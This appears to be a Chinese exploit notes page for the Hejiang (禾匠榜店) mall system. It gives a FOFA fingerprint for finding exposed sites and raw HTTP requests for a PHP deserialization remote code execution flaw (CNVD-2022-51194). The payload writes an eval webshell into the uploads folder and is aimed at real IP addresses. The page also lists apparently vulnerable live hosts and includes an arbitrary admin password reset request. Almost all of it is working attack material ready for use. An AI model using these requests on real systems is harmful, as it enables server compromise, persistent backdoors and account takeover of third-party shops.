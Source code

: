 # 禾匠榜店商城系统

    https://blog.csdn.net/C20220511/article/details/125065817

## fofa

```
body="const _scriptUrl"
```



## api/testOrderSubmit rce (CNVD-2022-51194)

### poc

```
POST /web/index.php?r=api/testOrderSubmit/index/submit&_mall_id=1 HTTP/1.1
Host: 8.129.117.188
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 233

form_data=O%3A23%3A%22yii%5Cdb%5CBatchQueryResult%22%3A1%3A%7Bs%3A36%3A%22%00yii%5Cdb%5CBatchQueryResult%00_dataReader%22%3BO%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A1%3A%7Bs%3A9%3A%22_fn_close%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7D
```

### exp

https://8.129.117.188/web/uploads/hejiang_1234.php?img=phpinfo();

```
POST /web/index.php?r=api/testOrderSubmit/index/preview&_mall_id=1 HTTP/1.1
Host: 8.129.117.188
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 913

form_data=O%3A23%3A%22yii%5Cdb%5CBatchQueryResult%22%3A1%3A%7Bs%3A36%3A%22%00yii%5Cdb%5CBatchQueryResult%00_dataReader%22%3BO%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A3%3A%7Bs%3A32%3A%22%00GuzzleHttp%5CPsr7%5CFnStream%00method%22%3Ba%3A2%3A%7Bs%3A10%3A%22__toString%22%3Bs%3A7%3A%22phpinfo%22%3Bs%3A5%3A%22close%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A20%3A%22yii%5Crest%5CIndexAction%22%3A2%3A%7Bs%3A11%3A%22checkAccess%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A13%3A%22yii%5Cbase%5CView%22%3A0%3A%7B%7Di%3A1%3Bs%3A22%3A%22evaluateDynamicContent%22%3B%7Ds%3A2%3A%22id%22%3Bs%3A132%3A%22file_put_contents%28%27uploads%2Fhejiang_1234.php%27%2Chex2bin%28%273c3f70687020406576616c28245f524551554553545b27696d67275d293b3f3e%27%29%29%3Bphpinfo%28%29%3B%22%3B%7Di%3A1%3Bs%3A3%3A%22run%22%3B%7D%7Ds%3A14%3A%22_fn___toString%22%3Bs%3A7%3A%22phpinfo%22%3Bs%3A9%3A%22_fn_close%22%3Ba%3A2%3A%7Bi%3A0%3Br%3A6%3Bi%3A1%3Bs%3A3%3A%22run%22%3B%7D%7D%7D
```

## index/submit rce

### poc phpinfo

```
POST /web/index.php?r=api/testOrderSubmit/index/submit&_mall_id=1 HTTP/1.1
Host: 1.14.246.165
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 233

form_data=O%3A23%3A%22yii%5Cdb%5CBatchQueryResult%22%3A1%3A%7Bs%3A36%3A%22%00yii%5Cdb%5CBatchQueryResult%00_dataReader%22%3BO%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A1%3A%7Bs%3A9%3A%22_fn_close%22%3Bs%3A7%3A%22phpinfo%22%3B%7D%7D
```

### exp

http://1.14.246.165/web/uploads/testA8e5baC.php?img=phpinfo();

```
POST /web/index.php?r=api/testOrderSubmit/index/preview&_mall_id=1 HTTP/1.1
Host: 1.14.246.165
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
Content-Length: 912

form_data=O%3A23%3A%22yii%5Cdb%5CBatchQueryResult%22%3A1%3A%7Bs%3A36%3A%22%00yii%5Cdb%5CBatchQueryResult%00_dataReader%22%3BO%3A24%3A%22GuzzleHttp%5CPsr7%5CFnStream%22%3A3%3A%7Bs%3A32%3A%22%00GuzzleHttp%5CPsr7%5CFnStream%00method%22%3Ba%3A2%3A%7Bs%3A10%3A%22__toString%22%3Bs%3A7%3A%22phpinfo%22%3Bs%3A5%3A%22close%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A20%3A%22yii%5Crest%5CIndexAction%22%3A2%3A%7Bs%3A11%3A%22checkAccess%22%3Ba%3A2%3A%7Bi%3A0%3BO%3A13%3A%22yii%5Cbase%5CView%22%3A0%3A%7B%7Di%3A1%3Bs%3A22%3A%22evaluateDynamicContent%22%3B%7Ds%3A2%3A%22id%22%3Bs%3A131%3A%22file_put_contents%28%27uploads%2FtestA8e5baC.php%27%2Chex2bin%28%273c3f70687020406576616c28245f524551554553545b27696d67275d293b3f3e%27%29%29%3Bphpinfo%28%29%3B%22%3B%7Di%3A1%3Bs%3A3%3A%22run%22%3B%7D%7Ds%3A14%3A%22_fn___toString%22%3Bs%3A7%3A%22phpinfo%22%3Bs%3A9%3A%22_fn_close%22%3Ba%3A2%3A%7Bi%3A0%3Br%3A6%3Bi%3A1%3Bs%3A3%3A%22run%22%3B%7D%7D%7D
```

| URL  | http://1.14.246.165:8082http://1.14.246.165https://106.55.156.189https://110.40.151.135https://116.63.157.210https://shop.ldysq.comhttps://139.155.175.130https://14.29.177.126http://39.108.37.44https://47.101.142.110https://8.129.117.188 |
| ---- | ------------------------------------------------------------ |

## 任意密码重置

```
POST /web/index.php?r=admin%2Fpassport%2Fedit-password HTTP/1.1
Host: www.xxx.com
Cookie: （刷新登陆页获取绘画Cookie）

5form%5Bcaptcha%5D=lxcq&form%5Bchecked%5D=false&form%5Busername%5D=admin&form%5Bpass%5D=admin8881&form%5BcheckPass%5D=admin8881&form%5Bmobile%5D=13800000001&user_type=1&mall_id=&_csrf=Sb4pjMU6cTcrKLfqjwJWdhm-d5Zt7J1BWiFUZtiLoDRx9mHJlnAFel9N06G_VhgbL89C_C66-gY2agFTiurvYA%3D%3D
```
